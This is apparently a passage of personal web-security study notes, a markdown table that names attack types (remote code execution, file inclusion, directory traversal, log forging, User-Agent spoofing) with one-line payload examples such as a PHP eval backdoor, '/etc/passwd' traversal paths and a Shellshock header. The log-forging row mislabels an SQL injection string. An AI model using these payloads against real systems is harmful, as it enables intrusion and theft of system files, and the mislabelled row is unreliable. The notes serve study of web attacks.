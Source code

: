 | **Remote Code Execution (RCE)**        | Gaining full control of a system by executing arbitrary code on the server.                          | `eval($_GET['cmd']);`<br><br>[[4a. RCE\|4a. RCE]]<br><br>[[../Data Wrapper/C Data Wrapper\|C Data Wrapper]]<br>[[../2.2 Attack Web/Data Wrapper/PHP Data Wrapper\|PHP Data Wrapper]]<br>[[../Data Wrapper/Ruby Data Wrapper\|Ruby Data Wrapper]]<br>[[../2.2 Attack Web/Data Wrapper/Java Data Wrapper\|Java Data Wrapper]]<br>[[../2.2 Attack Web/Data Wrapper/Bash Data Wrapper\|Bash Data Wrapper]]<br>[[../2.2 Attack Web/Data Wrapper/Javascript Data Wrapper\|Javascript Data Wrapper]]<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| **Local File Inclusion (LFI)**         | Exploiting improperly handled file paths to **read sensitive files**.                                | `../../../etc/passwd`<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Directory Traversal**                | Navigating beyond the intended directory structure to **access restricted files**.                   | `GET /../../etc/passwd`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Log Forging**                        | Manipulating application logs to **hide attack traces or execute log-based exploits**.               | `"; DROP TABLE users; --`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **User-Agent Spoofing**                | Changing the `User-Agent` header to **evade detection or exploit vulnerabilities**.                  | `User-Agent: () { :; }; /bin/bash -c 'cat /etc/passwd'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
